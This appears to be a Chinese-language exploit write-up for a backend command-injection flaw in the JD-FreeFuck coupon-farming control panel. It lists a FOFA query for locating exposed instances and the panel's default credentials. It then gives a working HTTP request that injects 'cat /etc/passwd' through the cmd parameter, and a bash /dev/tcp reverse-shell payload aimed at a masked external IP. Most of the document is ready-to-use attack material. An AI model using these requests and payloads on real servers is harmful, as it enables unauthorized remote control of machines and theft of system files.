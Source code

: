 # JD-FreeFuck 后台命令执行漏洞

## 漏洞描述

JD-FreeFuck 存在后台命令执行漏洞，由于传参执行命令时没有对内容过滤，导致可以执行任意命令，控制服务器

项目地址： https://github.com/meselson/JD-FreeFuck

## 漏洞影响

```
JD-FreeFuck
```

## FOFA

```
title="京东薅羊毛控制面板"
```

## 漏洞复现

访问后登录页面如下

![](./images/202202101952995.png)



默认账号密码为

**useradmin/supermanito**

![](./images/202202101952574.png)



发送如下请求包执行命令

```plain
POST /runCmd HTTP/1.1
Host: 101.200.189.251:5678
Content-Length: 50
Pragma: no-cache
Cache-Control: no-cache
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: connect.0.6356777726800276=s%3Av1W6DxlSqnPpVgvMCItxElFeKI1Psh4i.eE4ORs0Yz30N0TOg1pUVpOqrpIHyrqIimuXJVO8lE7U
Connection: close

cmd=bash+jd.sh+%3Bcat /etc/passwd%3B+now&delay=500
```



其中 cmd 参数存在命令注入



![](./images/202202101952947.png)



反弹shell



```plain
cmd=bash+jd.sh+%3Bbash+-c+'exec+bash+-i+%26%3E%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999+%3C%261'%3B+now&delay=500
```



![](./images/202202101952367.png)

## 